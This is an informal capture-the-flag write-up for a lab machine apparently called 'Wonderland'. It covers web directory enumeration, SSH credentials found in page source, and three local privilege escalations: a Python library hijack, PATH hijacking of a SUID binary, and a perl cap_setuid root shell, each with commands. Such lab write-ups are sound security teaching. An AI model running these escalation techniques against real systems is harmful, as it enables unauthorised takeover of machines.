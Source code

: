 ### Wonderland

export ip =10.10.176.192

first i put the nmap and gobuster to execute, nmap found port 22 and 80 open and gobuster found just tree directorys in the http page.

/img
/poem
/r 

in img have tree images, a rabbit and the others are a alice opens an door.
in these alice imgs theres is some text at the bottom but i couldn't understand it.

i mean, looks like a soo much diferent letters at the same time.

the main page says "that alice was so much surprised,that for a moment she forgot how to speak good english" but my english and my vocabulary aren't good so this becomes a little bit more harder to me.

the /r directory has a small text that says "Would you tell me, please, which way I ought to go from here?" BRO I DONT KNOW FIND YOURSELF.

so,i tried so much different names in url directory but couldn't have a response, just 404  

after a while i has a big idea and i've put de gobuster to run in the /r directory and he found /a directory

and " "That depends a good deal on where you want to get to," said the Cat." is the content of the /r/a/ directory, this cat is very cool i love him and his smile 

but it doesn't matter now, i put the gobuster to execute again but now in the /r/a/ and he found /b directory, looks like the alfabeth but it isn't in order  

# Content: "I don’t much care where—" said Alice.

and gobuster found other /b directory inside /b directory, how confusing!

# Content: "Then it doesn’t matter which way you go," said the Cat. 

now gobuster found /i 

# Content: "—so long as I get somewhere,"" Alice added as an explanation.

all of these page has a "Keep going" in header so i mean that when i arrive in somewhere this will change

and the gobuster found /t and if you put all of these letter together, the result is:

"/r/a/b/b/i/t"  HAHAHAHAHA

and the header changes ! 

# Content: Open the door and enter wonderland

"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare. Visit either you like: they’re both mad."

so, if i add hatter or marchhare in the url? nothing happens :)

view source of the page has "alice:How Doth The Little Crocodile Improve His Shining Tail"

i don't know what this mean 

i researched about this and i found some darker things about this history and the creator wtffff

i tried a much words about in the url that crocodile and your shining tail but i couldn't find anything 

ITS A LOGIN ABSDIOLUBASOIUBDPAIUSBDPIUBAWPUBEDAUSBDANWDÌNO 

alice@pass

its a login to ssh connection!

now i can login in the machine

i know where is the root flag but i don't have permission. 

alice can run /usr/bin/python3.6 walrus_and_the_carpenter.py as rabbit user

this code, imports random and print a random line from an poem,so what i do is 

$ touch random.py

$ nano random.py


'''
python3 -c 'import pty; pty.spawn("/bin/bash")'

'''

$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

$ nc -lvnp 9001

i'll find for suid aplications and if i don't got anything i'm going to search something in contrab


$ find / -perm -4000 2>/dev/null

'''

/home/rabbit/teaParty 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at 
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/sudo
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su
$ 

'''

/home/rabbit/teaParty binary has suid, what this binary does?

let's go see with ida

this binary calls a system function with an command wich is "/bin/echo -n 'some text' && date --d"

the import thing here is date command, because the path is not correctly specified as in the echo command, then i'll manipule the path to get other user

$ mkdir /tmp/foo # create random directory to put the script

$ echo "/bin/sh" > /tmp/foo/date # create the script that will launch /bin/sh

$ chmod 777 /tmp/foo/date # mark it as executable

$ PATH=/tmp/foo:$PATH 

$ /home/rabbit/teaParty

$ whoami 
hatter

explanation from this blog: [blog](https://blog.creekorful.org/2020/09/setuid-privilege-escalation/)

'''
How does the PATH work exactly?

The PATH variable is used to lookup executables when issuing command. It is composed of directories to include while searching, separated by a semicolon ‘:'.

For example: /usr/local/bin:/usr/bin:/bin means that executables will be searched in the following directories:

    /usr/local/bin
    /usr/bin
    /bin

The search will stop when the executable is found. It means that if apt is present in /usr/local/bin/apt it will not be searched in the others directories.
'''

after a few time search something i decide use linpeas to enumerate for me and make the things more easy

linpeas found this

'''
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
'''

so,just what you need to do is,but first connect in the hatter account with ssh...In my case this perl command only worked in this way

$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
#whoami
root

#cat /home/alice/root.txt
#cat /root/user.txt

;)
